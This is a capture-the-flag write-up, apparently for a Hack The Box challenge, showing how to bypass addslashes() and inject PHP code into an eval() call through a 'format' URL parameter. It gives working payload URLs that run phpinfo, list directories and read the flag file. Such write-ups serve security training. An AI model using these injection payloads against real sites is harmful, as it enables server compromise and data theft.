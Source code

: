 # My Solution

We have a website that predicts the exact moment you'll find the real love. By playing around with the site we clearly see that the format of the displayed datetime varies depending on the format passed in the get parameter 'format'.  

Since the source code is available, we can download it and analyze it.  
We have a sample flag file (clearly not the flag we want, too easy otherwise ). We also have an entrypoint.sh script which generates a 5 character string and move the content of /flag to /flag{5 random chars}. It's very likely that the script has been used in an initialization phase and that the file /flag{5 random chars} will contain the HTB flag.  

By looking at the actual code of the web server, we can see that the format variable is sanitized with the *addslashes* function. Therefore the NULL,\',\" and \\ characters are sanitized.  
After the sanitization, the variable 'format' is used to specify the format of the Datetime to display. The eval() function allows to produce the desired Datetime and store the result in the $time variable which is then displayed in the view.  

At a first sight, it results quite clear that our attempts should be focused on bypassing the *addslashes* function in order to have code execution on eval.  

In order to bypass the *addslashes()* we may use characters that trigger multibyte characters, thus avoiding the sanitization of the special characters \' or \". In our case, this first attempts were unsuccessful.  

More fruitful, instead, is to take a look at how *eval()* evaluates the commands. This function in fact, evaluates the variable passed in the string parameter. So, by passing a string like ${print("ciao")}, *eval()* would execute the statement and return the result of the statement.  
In our case,however, it is not possible to use above statement because the character \" is sanitized by addslashes. Luckily, the php version in use is 7.2.x (as we can see from the Dockerfile in the zip source code we downloaded at the beginning). In this php version it is possible to write ${print(ciao)} without running into a fatal error. In fact, The php interpreter will throw a warning but it will considered *ciao* as a string, without interrupting the execution.  
We can suppress the warning by using the @ operator.  

We can now apply it in practise and see whether it actually works.
```
http://HOST:PORT/?format=${@print("ciao")}
```
The print is actually executed and 'ciao' is displayed on the website.  
We can now try with something a bit more useful than simply printing a 'ciao' string.  

We may get information of the environment and php
```
format=${@print_r(phpinfo())}
```
We see we are in /home/www and the user is www.  

We may want to see the content of the current directory (use of \' or \" is not yet allowed because of  *addslashes* )
```
GET /?format=${@print_r(get_defined_functions()[internal][481](ls))}
```
But the flag file is not here.  

As we saw  at the beginning, the flag file may be stored in the root directory, more specifically in a directory/file with name /flag{5 random chars}.  
We can use the *scandir()* function to get the content of a directory passed as parameter. However an injection like scandir('/') would not work because of the sanitization of \'.  
This can easily be solved by passing the parameter in a get variable and then by calling that variable.
```
http://HOST:PORT/?format=${@print_r(scandir($_GET[a]))}&a=/
```
And we get:
```
Array
(
    [0] => .
    [1] => ..
    [2] => .dockerenv
    [3] => bin
    [4] => boot
    [5] => dev
    [6] => entrypoint.sh
    [7] => etc
    [8] => flagHy4zs
    [9] => home
    [10] => lib
    [11] => lib64
    [12] => media
    [13] => mnt
    [14] => opt
    [15] => proc
    [16] => root
    [17] => run
    [18] => sbin
    [19] => srv
    [20] => sys
    [21] => tmp
    [22] => usr
    [23] => var
    [24] => www
)
```

We can now get the content of /flagHy4zs
```
GET /?format=${@print_r(file_get_contents($_GET[a]))}&a=/flagHy4zs
```
And we get the flag :)))
